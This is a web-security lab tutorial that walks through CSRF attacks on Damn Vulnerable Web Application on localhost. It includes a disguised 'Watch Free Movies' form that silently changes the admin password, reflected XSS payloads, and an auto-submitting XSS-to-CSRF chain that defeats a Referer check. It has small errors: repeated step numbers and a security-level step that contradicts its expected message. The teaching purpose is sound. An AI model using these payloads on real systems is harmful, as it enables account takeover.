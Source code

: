 # Cross-Site Request Forgery (CSRF)

Target - [Damn Vulnerable Web Application](https://github.com/digininja/DVWA)

```bash
docker run --platform linux/amd64 -d -p 4280:80 --name dvwa citizenstig/dvwa
```

## Understand the Basics

1. Run following commands:

    ```bash
    > git clone https://github.com/digininja/DVWA.git
    > cd DVWA
    > docker compose up -d
    ```

2. Navigate to http://localhost:4280
3. Click on "**Login**" button
4. In the "Database Setup" page, click on "**Create/Reset Database**" button
5. Login using the default admin credentials i.e., `admin`:`password`
6. Select "**DVWA Security**" in the main menu
7. In the "Security Level" page, select "**Low**" and click on "Submit" button. You should see the message `Security level set to low`.
8. Select "**CSRF**" in the main menu
9. Right click and select "View Page Source" from context menu
10. Do you see the "change password" **form**?

    ```html
    <form action="#" method="GET">
        New password:<br />
        <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
        Confirm new password:<br />
        <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
        <br />
        <input type="submit" value="Change" name="Change">

    </form>
    ```

9. Copy the form and paste it in a new file called "csrf.html"
10. Modify the value of "action" attribute from `#` to `http://localhost:4280/vulnerabilities/csrf/`
11. Add an H1 HTML element inside the `form` tag

    ```html
    <h1>Watch Free Movies</h1>
    ```
12. Replace `type="password"` with `type="hidden"`
13. Replace `value="Change"` with `value="Click here..."`
14. The contents of `csrf.html` file should look something similar to following:

    ```html
    <form action="http://localhost:4280/vulnerabilities/csrf/" method="GET">
        <h1>Watch Free Movies</h1>
        <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="123456"><br />
        <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="123456"><br />
        <input type="submit" value="Click here..." name="Change">
    </form> 
    ```

13. Host this malicious HTML file

    ```bash
    python3 -m http.server 1234
    ```

14. Navigate to http://127.0.0.1:1234/csrf.html
15. Test the admin credentials here - http://localhost:4280/vulnerabilities/csrf/test_credentials.php

## Chaining Vulnerabilities

1. Select "**DVWA Security**" in the main menu
2. In the "Security Level" page, select "**Low**" and click on "Submit" button. You should see the message `Security level set to medium`.
3. Select "**CSRF**" in the main menu
4. Re-host the "csrf.html" file created in previous exercise

    ```html
        <form action="http://localhost:4280/vulnerabilities/csrf/" method="GET">
        <h1>Watch Free Movies</h1>
        <input type="submit" value="Click here..." name="Change">
        <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="123456"><br />
        <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="123456"><br />
    </form> 
    ```

    ```bash
    python3 -m http.server 1234
    ```

5. Ensure that you are logged in to DVWA application
6. In a new tab, visit the `csrf.html`` page hosted at http://127.0.0.1:1234/csrf.html
7. Carelessly click on the "Click here..." button
8. Notice that the attack did not work this time. Why?
9. Click on `View Source` button on the bottom of CSRF challenge page at http://localhost:4280/vulnerabilities/csrf/
10. Analyze the code to understand what is triggering the following error message:

    ```html
    That request didn't look correct.
    ```
11. Notice the following lines of code:

    ```php
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ], $_SERVER[ 'SERVER_NAME' ]) !== false ) { 
    ...
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    } 
    ...
    ```

12. What does this mean? It means that any request from an external domain will be rejected. The attack must originate from within the application itself.
13. Go to http://localhost:4280/vulnerabilities/xss_r/
14. In the input box enter following values and observe the results

    ```text
    nullcon
    <script>alert(123)</script>
    <img src=x onerror=alert(456)>
    ```

15. Paste the following javascript payload in the input box:

    ```js
    <form id="csrf_form" action="http://localhost:4280/vulnerabilities/csrf/" method="GET">
        <input type="hidden" value="Change" name="Change">
        <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="123456"><br />
        <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="123456"><br />
    </form> 

    <script type="text/javascript">
        window.onload = function () {
        document.getElementById("csrf_form").submit();
        }
    </script>
    ```

16. View the page source and copy the new `form` element

    ```html
    <form name="XSS" action="#" method="GET">
        <p>
            What's your name?
            <input type="text" name="name">
            <input type="submit" value="Submit">
        </p>
    </form>
    ```

17. Create a new file called `csrf_auto.html` containing the modified form as follows:

    ```html
    <form name="XSS" action="http://localhost:4280/vulnerabilities/xss_r/" method="GET">
        <p>
            <h1>Watch Free Movies</h1>
            <input type="hidden" name="name" value="<form id='csrf_form' action='http://localhost:4280/vulnerabilities/csrf/' method='GET'>
                <input type='hidden' value='Change' name='Change'>
                <input type='hidden' AUTOCOMPLETE='off' name='password_new' value='123456'><br />
                <input type='hidden' AUTOCOMPLETE='off' name='password_conf' value='123456'><br />
            </form> 

            <script type='text/javascript'>
                window.onload = function () {
                document.getElementById('csrf_form').submit();
                }
            </script>">
            <input type="submit" value="Click here...">
        </p>
    </form>
    ```

18. Host this malicious HTML file

    ```bash
    python3 -m http.server 1234
    ```

19. Navigate to http://127.0.0.1:1234/csrf_auto.html
20. Test the admin credentials here - http://localhost:4280/vulnerabilities/csrf/test_credentials.php